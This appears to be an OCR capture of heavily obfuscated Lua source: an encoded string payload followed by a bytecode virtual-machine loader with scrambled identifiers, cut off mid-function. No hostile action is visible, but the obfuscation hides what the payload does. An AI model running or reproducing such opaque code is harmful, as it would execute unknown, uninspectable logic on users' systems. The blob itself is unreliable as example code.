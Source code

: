 u=a(e,"*exof_aC(A6#2,Mi2MAf_Mx(i_2A(a_ce6fo)C#2A(C>e6X_,,(M_ioe^(AMxAnA#6(ffMa__ee#MfAoaioCi,##6aaMxiiM2eACoaxeMa#8C#fMM#M(#xC6,_2oaaogi6e(ia2eA_+2e2MA#aCAiMei,o6ixaf^S2,o6x_,x_jm##(f&6x#MC#2C6i2io,i6ACxxei,2_f2f2io(,_AeMM(#xMi#aCe_eexaio(0x22A2a0x6if2e(i_xe2MaioMA#xC2o,y_MDoAyf26Af_MAi_ox_i6_oxaMf6MC((aCeo(ex,o6CfaoCiM2/(#ax#,(MfMe(MxMi,M6ACao(,i22Aaaex6Ao_MxfMM#(ia6,(Af#6,C,oMJ(,xeo,_6xa_oCiM#A(__e#C(0f6efMe6(Cxo2OA,_A6afxMa#oxM,2,(MM,#MCMf(exxAQ#,2AiaAxekf2oAi_M2o(M_feMM(?},,#oC_,#6faMo(xx22Aaa%x,i6#M((_x_M__xoM,6A(e,#6#a2oa7Tfezo,?Aoa_x2MC#oCiMC#oC(fx12e#^M2i6eCC2#A,_2xaiRPaio#eCAfMi2Mx6e(ooAeTa#o(i22aA566(_aTe,iK2.eAi_66CfoMfMo#r626Caaooake22a__feiM26MaoffM#,MA,CAfoA,a(xMi(2xio#C(,fi#C((f(ex,2M,,_6M_Cook6,(A__Ax_(,_AeMM(#x,D#_(xf,eoCeoi9x22Aa#XAa__oCM,2f(iMA2eC6ffBMoM9#,MA#CfoArA2eA^_#x6i6#_(2fAxeM2f_eC,a6wa6C#aoo2,_2f(i_2eMia#o(aMf62Caf<3a_CC_iiCoii2(AF_6xff,ii(ff2eaMc66CfoMs(,xAiCxoIi62f2i##Aa__x2M_(2(o_ee#,C6iEA,AA6afxMo#x6M,2((ef,x(Mo#6e_Mf6aC1o6f2foU_2oA6a_xAMM_CxeM(#xC2(i(oe#6CCMo(gx22,M,_AC__x2iC##(uo(eiMA#(_MoAefMsoAEM26Af_MaM_#x6M6Aa(o_axeM2(_Cfoi>22MoClf2(Ax_2aM__e#iG2x(vM_#6CafRO6e#qo,2CaaeoAio#iAx_xeAit2H(AMo#_CfoM}(e#W6,A6f_#ox^x6o(#_(xx(o_(ef,M6(,#6iCfo_gM,#A,a6x,i#2,(Mfixa(ef2ex,26a2fA#a#feA6axx2ia2!(6_fqMxC#xC,fAe_,66faM6(aoo_5(,ox,i(#M((_xa6fCe,,ifCea,(6xa2(aaio,i,,xAeaex6(A_Ae6Mf6M2_6oCofftA,M6Aaxx,Ax_2xaiXe#(ffMe(if62Caf>V6ieAMa(oxyMM&A;_#xfir#((xf2oaMM66C_oMqA,x62aa_l:a2f(i_(xoM22x(Gf6x#,M6ACxoMRa,7A6aff_i(2x(2_axSM2#f(x_Cex,26a2Mo6._2M#(a6x2i#2>(M_fooM(2fCifaeC,6#MaMo(+x2226aNxiif2_((_fe2M2M,C6fA-Moa6xa,oa5v26A(aAx(ix#2Mf_Se#Mf2M(#fxee,a6fa6fMiMM(#o_2x#iF#i(faoe(if2(CafCS6,#AMa(oxe22#A;aexfi_#((6f2x(Me66C,oMex,xA2aaozi#2fA__(x#M2#((wa6xe,M6iCxfoua,fA6(ff_i(2A(2_,xL3(#fCMC2exMe6aCCo6!a2MAMACx2i#2s6x_feiM(#oC2f6e#,66faM_:zx2,Aaafo_if#M((#Je2MC#h(2C,GM,,6x(Aoah826#f(ex(i(#2(6_ke#Mf2MAofxex,a6aa6f#iM2(A__2x2iT2e(ffMe(Mx#aCaf_k6,fAMaioxlK,eAU_6xff6#((of2oaio66CMoMee,x#6aa_aBO2fA(_(CMM2#C(lf,efMx#oCxo2Tax2A6a_xMe(26(2a=xUio#fAef(xf,i6aC2o6ea2MA(axx2x621Af_fx6M(#fC2f2f_,66MaM_ikx2,Aaaex6i(2A((_xe2 ,#%C#ffexMo6xa2oa_226A__Mf(3_#2Ad_3xoMf2fC(_pUM,a6ia6_iiM2AAxaaxaif2_(ffMe(),62CCf.LM,iAMa(ox_(2aAe_6ffue#((2f2eiMp2dCff2Y6,x6#aa_ii62_(Maxxxi?2e(7f6efZ,6(Coo2d6,#A6afxM_f2x(,_afOi,#f((f(e#,26#CF_6e22M6xaxoaia2A(6CfxMM(#2C2_DeHiA6f(qoMWx,CAaaCx6if#M6(_Ce2ie#5(_ffea,(#fa,oar,26AM_Mx(ix#2(2_hx_Mf##C(ff+2ia#aa6oiiM,oAxa>xaeN2,(f_Ae(M,62(CfXx6M(AMCooxPC2a6f_6ffia#((,f2xeMN2ACfoMx_,x6aaao6i62i(MC(oaM227(;_fefiM6(A(_(Ia,6A62PxMiA2xAA_axfi_#fCMf(aM,26CC;f2o,2M6xaxo6ia2K(6CfoeM(#2C2_4eHix6fAfaxmx,aAa6ox6i_#M6f_xxIie#ZC6ff_e,(6oa2o63#26Af_MC(ix#,(aax_oMf#(C(_#v2,a6u(6fCiM,oAxa_xai_#66faee(M,62(efleo,fAM(oox^a2aAx_6xaMM#M#Cf2xrM+ifCfoiK(,oA2a6o#i62f(M6xxxM,#a(f__ef,M6(2xo2:C,n#6CCxMHx2xA__ax_M6,f(_f(e2,2#nCXfHkfM}#oaxo(ia,x(6_feMM(#aC2_.eVMa6fC>o(ox2iAaa6x6l6#MAC_xx-M,#SC6ffa6,(6oa2f(oA26AM_Mooix#2(a_TofMf#AC(fxl2,a6U(6o#iM,fAxa_xai_#66f_ee(MM62(xfkeo,f#OCaoxVA2aAi_6xfMM#(A2f2xBMT#CCfoi3(Mf66aao6i62i(M_(xxM22a(k__ef,M6(Cxo2xaMoA6C7xMEe2xAe_afmi,#f(6f(eM,26iCVf2.C2M6_axfCia23(6_foCM(#2C2_oe0,#6fCfa_^x,eAaCMx6i_#M(6_xx<ie#qC6ffx2,(6oa2o2x,26Af_Mxiix#,(a_xe6M(#AC(fxK2,,6ca#ofiM,eAx_2xaie#6(ffMe(M662CafTx6MCAMaAoxi22aAo_6f6if#((of2e,MJ6#Cff&<(,a6CaaoNi62#(M_AxxiMMi(Xf#ef,i6(Cxo292,_A6aaxMi(2x(,_axeM6#fCif(ex,26aC{o6Yf2M,Caxx,ia2x(6__eMM(##C2faed,#6faMo(%o,aAaabx6-aM2((_xe2M##;C6ffxM,,6xa2oaBP26Aa_Mx(G##2(a_8e#Mf6iC(_fe_,a6=a6o6iM2(AxC2ofiY#6(ffMe(M_62AafCv6,fAMa(oxbd2a#kCxxfMM#((xf2eCMp62APoM<6,xA2aao>i62f6C_(xxM2#((Xf#ef,M#eCxo2ra,eA6afxMi(22(2_axdM6,,CMf(ex,,6aC?o6ea,fA(axx2i(28(6_fowiA#xC2faee,66faM_M!C22Aaa{oWif#i((__e2M6##C6ffJM,M6xa,oa:1,oAf_Mx(io#2(a_bx2e,6MC(fxeq,a6!a6oae62(Ao_2xai+#6(ffMf(Mx62CafxD6,_AMa(o(i22aA1_#xfMM#((x");local n=0;r.QfUXdqHi(function()r.OuMyYhSQ()n=n+1 end)local function e(f,e)if e then return n end;n=f+n;end local f,n,h=t(0,t,e,u,r.jCJzlSTg);local function a()local f,n=r.jCJzlSTg(u,e(1,3),e(5,6)+2);e(2);return(n*256)+f;end;local s=true;local s=0 local function k()local l=n();local e=n();local o=1;local l=(f(e,1,20)*(2^32))+l;local n=f(e,21,31);local e=((-1)^f(e,32));if(n==0)then if(l==s)then return e*0;else n=1;o=0;end;elseif(n==2047)then return(l==0)and(e*(1/0))or(e*(0/0));end;return r.LMPEoGXn(e,n-1023)*(o+(l/(2^52)));end;local p=n;local function g(n)local f;if(not n)then n=p();if(n==0)then return'';end;end;f=r.RgBOabQR(u,e(1,3),e(5,6)+n-1);e(n)local e=""for n=(1+s),#f do e=e..r.RgBOabQR(f,n,n)end return e;end;local s=#r.VStAnGPa(_('\49.\48'))~=1 local e=n;local function le(...)return{...},r.kDdTMsOa('#',...)end local function ne()local u={};local e={};local c={};local _={c,u,nil,e};local e=n()local t={}for l=1,e do local f=h();local e;if(f==0)then e=(h()~=#{});elseif(f==2)then local n=k();if s and r.vtwkbeXI(r.VStAnGPa(n),'.(\48+)$')then n=r.hDujoJ_z(n);end e=n;elseif(f==3)then e=g();end;t[l]=e;end;for e=1,n()do u[e-(#{1})]=ne();end;for _=1,n()do local e=h();if(f(e,1,1)==0)then local r=f(e,2,3);local h=f(e,4,6);local e={a(),a(),nil,nil};if(r==0)then e[o]=a();e[d]=a();elseif(r==#{1})then e[o]=n();elseif(r==b[2])then e[o]=n()-(2^16)elseif(r==b[3])then e[o]=n()-(2^16)e[d]=a();end;if(f(h,1,1)==1)then e[l]=t[e[l]]end if(f(h,2,2)==1)then e[o]=t[e[o]]end if(f(h,3,3)==1)then e[d]=t[e[d]]end c[_]=e;end end;_[3]=h();return _;end;local function fe(f,e,n)local l=e;local l=n;return _(r.vtwkbeXI(r.vtwkbeXI(({r.QfUXdqHi(f)})[2],e),n))end local function p(j,s,h)local function ne(...)local a,g,u,ne,b,n,_,ee,m,z,k,f;local e=0;while-1<e do if e<=2 then if 1<=e then if e==2 then n=-41;_=-1;else u=t(6,15,3,85,j);b=le ne=0;end else a=t(6,45,1,86,j);g=t(6,82,2,6,j);end else if 5<=e then if 2<e then repeat if 6~=e then f=t(7);break;end;e=-2;until true;else e=-2;end else if-1<=e then repeat if e~=4 then ee={};m={...};break;end;z=r.kDdTMsOa('#',...)-1;k={};until true;else z=r.kDdTMsOa('#',...)-1;k={};end end end e=e+1;end;for e=0,z do if(e>=u)then ee[e-u]=m[e+1];else f[e]=m[e+1];end;end;local e=z-u+1 local e;local